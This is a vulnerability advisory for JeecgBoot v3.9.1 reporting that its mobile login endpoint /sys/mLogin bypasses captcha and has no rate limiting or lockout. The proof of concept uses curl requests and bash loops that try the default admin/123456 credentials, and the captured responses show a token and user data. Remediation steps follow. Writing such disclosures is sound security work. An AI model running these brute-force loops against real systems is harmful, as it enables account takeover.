

# V-009: Mobile Login Endpoint Bypasses Captcha Protection

## Vulnerability Information

| Item | Detail |
|------|--------|
| Product | JeecgBoot |
| Version | v3.9.1 (and all prior versions) |
| Type | CWE-287: Improper Authentication / CWE-307: Improper Restriction of Excessive Authentication Attempts |
| Severity | Medium |
| Attack Vector | Network (Unauthenticated) |

## Description

JeecgBoot provides two login endpoints:

1. **`/sys/login`** - Standard login, requires valid captcha verification
2. **`/sys/mLogin`** - Mobile login, **no captcha required**

The `/sys/mLogin` endpoint accepts the exact same `username` + `password` JSON body as the standard login but completely skips captcha validation. It also lacks any rate limiting, IP-based lockout, or account lockout mechanism.

This allows attackers to perform **unlimited brute-force attacks** against any user account without any bot protection. Combined with V-001 (hardcoded AES key + plaintext fallback), passwords can be sent in plaintext.

## Affected Files

- `jeecg-module-system/jeecg-system-biz/src/main/java/org/jeecg/modules/system/controller/LoginController.java` - Contains both `/sys/login` (with captcha) and `/sys/mLogin` (without captcha)

## Impact

1. **Brute-force attacks**: Unlimited login attempts with no captcha, no rate limiting, no lockout
2. **Credential stuffing**: Attackers can test large credential databases at scale
3. **Account takeover**: Weak passwords can be discovered quickly
4. **Bypass security controls**: Captcha protection on the main login is rendered useless by this alternative endpoint

## Proof of Concept

### Step 1: Verify Standard Login Requires Captcha

```bash
curl -s -X POST http://<target>:8080/jeecg-boot/sys/login \
  -H "Content-Type: application/json" \
  -d '{"username":"admin","password":"123456"}'
```

**Response (login blocked):**
```json
{
  "success": false,
  "message": "验证码无效",
  "code": 500,
  "result": null,
  "timestamp": 1776073059954
}
```

### Step 2: Use mLogin to Bypass Captcha

```bash
curl -s -X POST http://<target>:8080/jeecg-boot/sys/mLogin \
  -H "Content-Type: application/json" \
  -d '{"username":"admin","password":"123456"}'
```

**Response (login succeeds):**
```json
{
  "success": true,
  "message": "",
  "code": 200,
  "result": {
    "userInfo": {
      "id": "e9ca23d68d884d4ebb19d07889727dae",
      "username": "admin",
      "realname": "管理员",
      "email": "jeecg@163.com",
      "phone": "18611111111",
      "orgCode": "A01A03",
      "status": 1,
      ...
    },
    "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..."
  }
}
```

### Step 3: Demonstrate Brute-Force (No Rate Limiting)

```bash
# Rapid sequential login attempts - all succeed without being blocked
for i in $(seq 1 10); do
  curl -s -X POST http://<target>:8080/jeecg-boot/sys/mLogin \
    -H "Content-Type: application/json" \
    -d '{"username":"admin","password":"123456"}' | \
    grep -o '"success":[a-z]*'
done
```

**Output (all 10 attempts succeed):**
```
"success":true
"success":true
"success":true
"success":true
"success":true
"success":true
"success":true
"success":true
"success":true
"success":true
```

### Step 4: Incorrect Password Attempts (No Lockout)

```bash
# Repeated failed login attempts are not rate-limited
for i in $(seq 1 10); do
  curl -s -X POST http://<target>:8080/jeecg-boot/sys/mLogin \
    -H "Content-Type: application/json" \
    -d '{"username":"admin","password":"wrongpassword"}' | \
    grep -o '"message":"[^"]*"'
done
```

**Output (no lockout triggered):**
```
"message":"用户名或密码错误"
"message":"用户名或密码错误"
...
```

No account lockout, no IP ban, no rate limiting even after many failures.

## Verification Results

### Standard Login (Captcha Required)

**Request:**
```
POST /jeecg-boot/sys/login
{"username":"admin","password":"123456"}
```

**Response:** `{"success":false,"message":"验证码无效","code":500}`

### Mobile Login (No Captcha)

**Request:**
```
POST /jeecg-boot/sys/mLogin
{"username":"admin","password":"123456"}
```

**Response:** `{"success":true,"code":200,"result":{"userInfo":{...},"token":"eyJhbG..."}}`

### Key Differences

| Feature | `/sys/login` | `/sys/mLogin` |
|---------|-------------|---------------|
| Captcha | Required | **Not Required** |
| Rate Limiting | None | None |
| Account Lockout | None | None |
| Response | Full JWT + UserInfo | Full JWT + UserInfo |
| Password Format | Encrypted or plaintext | Encrypted or plaintext |

Both endpoints return identical JWT tokens with full access privileges. The mLogin endpoint provides a complete bypass of the only brute-force protection (captcha) on the login flow.

## Remediation

1. Add rate limiting to `/sys/mLogin` (e.g., max 5 attempts per minute per IP/account)
2. Implement account lockout after N consecutive failed attempts
3. Add captcha or OTP verification to `/sys/mLogin`
4. If `/sys/mLogin` is intended for mobile apps, restrict it via API key or app signature validation
5. Add IP-based throttling at the WAF/reverse proxy level

## Screenshots



### Payload

```
POST /jeecg-boot/sys/mLogin HTTP/1.1
Host: 192.168.217.135:18080
Content-Type: application/json

{"username":"admin","password":"123456"}
```

对比 `/sys/login` 返回 `"验证码无效"` (code 500), `/sys/mLogin` 直接返回 `"success":true` 和完整 JWT token。

## Verification Environment

- Target: JeecgBoot v3.9.1 deployed via Docker on 192.168.217.135:18080
- Tools: curl
- Date: 2026-04-13
